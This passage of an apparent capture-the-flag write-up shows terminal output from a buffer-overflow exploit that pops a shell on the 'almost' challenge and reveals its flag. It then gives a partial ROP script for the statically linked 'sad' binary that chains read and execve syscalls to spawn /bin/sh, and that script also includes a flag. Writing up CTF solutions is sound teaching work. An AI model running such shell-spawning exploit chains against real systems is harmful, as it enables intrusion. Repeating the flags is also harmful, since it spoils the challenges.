 Running te exploit:-

```r
0 [07:43:53] vagrant@oracle(oracle) pwn> python3 almost.py 
[+] Opening connection to jh2i.com on port 50017: Done
[*] Analyzing /home/vagrant/CTFs/hacktivity/pwn/almost
[*] Analyzing /home/vagrant/CTFs/hacktivity/pwn/libc6-i386_2.27-3ubuntu1.2_amd64.so
[*] puts@GOT:   0xf7d8b3d0
[*] Switching to interactive mode
Result:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAA\x80��ﾭޏ���ccccccccccccccccccccccccccccccccccccccccc://BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAA\x80��ﾭޏ���ccccccccccccccccccccccccccccccccccccccccc/ls
almost    almost.c  flag.txt
$ cat flag.txt
flag{my_code_was_almost_secure}$ 
$ 
[*] Interrupted
[*] Closed connection to jh2i.com port 50017
```

# sad 

This was a statically linked binary and it had a stack overflow vulnerability and since it was statically linked no ret2libc could be done, I chose the ROP way to do a `read` syscall to store `/bin/sh` in BSS address and then did a `execve`syscall. As it was statically linked binary, we had every needed gadget this made it simple to exploit:-


Exploit:-

```py
from roppy import *

p = remote("jh2i.com", 50002)

# flag{radically_statically_roppingly_vulnerable}


pop_rdi = p64(0x40187a)
syscall = p64(0x40eda4)
pop_rdx = p64(0x40177f)
pop_rsi = p64(0x407aae)
pop_rax = p64(0x43f8d7)
bss     = p64(0x4ae310)

payload = b"a"*264

# The read syscall
payload += pop_rdi   
payload += p64(0)
payload += pop_rsi
payload += bss
payload += pop_rdx
payload += p64(0x8)
payload += pop_rax
payload += p64(0x0)
payload += syscall

# The execve syscall payload: execve(bss, 0, 0)

payload += pop_rdi
payload += bss
payload += pop_rsi
```